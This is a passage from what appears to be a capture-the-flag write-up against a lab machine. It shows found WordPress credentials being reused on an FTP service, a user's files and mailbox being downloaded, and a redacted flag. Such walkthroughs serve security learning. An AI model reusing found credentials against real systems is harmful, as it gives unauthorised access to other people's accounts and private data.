 > We found valid credentials: `joe:12345`
{: .prompt-info }
  
> Logging in with the credentials in `wordpress` unfortunately does not help, as we are a restricted user who is not allowed to change theme code or upload plugins.
{: .prompt-danger }

Check if the credentials also work for the identified `ftp` service.
```bash
$ ftp 192.168.203.77 
Connected to 192.168.203.77.
220 ProFTPD Server (Debian) [192.168.203.77]
Name (192.168.203.77:void): joe
331 Password required for joe
Password: 
230 User joe logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

> Yes, they do!
{: .prompt-info }

Lets dig through the content.
```bash
ftp> ls
229 Entering Extended Passive Mode (|||15821|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 root     root           33 Aug 22 07:35 local.txt
-rw-------   1 joe      joe           998 Jul 18  2020 mbox
226 Transfer complete
ftp> get local.txt
local: local.txt remote: local.txt
229 Entering Extended Passive Mode (|||34223|)
150 Opening BINARY mode data connection for local.txt (33 bytes)
    33      246.00 KiB/s 
226 Transfer complete
33 bytes received in 00:00 (0.34 KiB/s)
ftp> get mbox
local: mbox remote: mbox
229 Entering Extended Passive Mode (|||49674|)
150 Opening BINARY mode data connection for mbox (998 bytes)
   998        1.15 MiB/s 
226 Transfer complete
998 bytes received in 00:00 (5.79 KiB/s)
```

```bash
$ cat local.txt 
f******************************b
```

> We got the first flag :)
{: .prompt-info }
